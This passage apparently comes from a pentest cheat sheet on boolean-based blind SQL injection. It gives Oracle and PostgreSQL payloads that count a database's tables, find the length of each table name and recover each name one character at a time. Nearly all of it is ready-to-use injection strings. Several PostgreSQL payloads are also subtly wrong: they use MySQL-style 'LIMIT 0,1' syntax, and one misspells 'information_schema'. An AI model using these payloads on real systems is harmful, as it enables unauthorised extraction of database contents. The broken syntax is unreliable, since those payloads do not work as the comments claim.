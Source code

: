 ```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM all_tables WHERE owner = USER OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=5--

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM all_tables WHERE owner = USER OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY)=5-- 
```

Third, retrieve name of each table

<pre class="language-sql"><code class="lang-sql">-- If True, the first char of the first table is u
<strong>1'AND (SELECT ASCII(SUBSTR(table_name, 1, 1)) FROM all_tables WHERE owner = USER OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=117--
</strong>
-- If True, the second char of the first table is s
1'AND (SELECT ASCII(SUBSTR(table_name, 2, 1)) FROM all_tables WHERE owner = USER OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=115--

-- If True, the first char of the second table is p
1'AND (SELECT ASCII(SUBSTR(table_name, 1, 1)) FROM all_tables WHERE owner = USER OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY)=112--
</code></pre>
{% endtab %}

{% tab title="PostgreSQL" %}
First, retrieve the number of tables:

```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=current_database())=2-- #True -> 2 tables
```

Second, retrieve length of each table

```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=current_database() LIMIT 0,1)=5--

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=current_database() LIMIT 1,1)=5-- 
```

Third, retrieve name of each table

<pre class="language-sql"><code class="lang-sql">-- If True, the first char of the first table is u
<strong>1'AND (SELECT ASCII(SUBSTRING(table_name, 1, 1))FROM information_schema.tables WHERE table_schema=current_database() LIMIT 0,1)=117--
</strong>
-- If True, the second char of the first table is s
1'AND (SELECT ASCII(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE table_schema=current_database() LIMIT 0,1)=115--

-- If True, the first char of the second table is p
1'AND (SELECT ASCII(SUBSTRING(table_name, 1, 1)) FROM nformation_schema.tables WHERE table_schema=current_database() LIMIT 1,1)=112--
</code></pre>
{% endtab %}
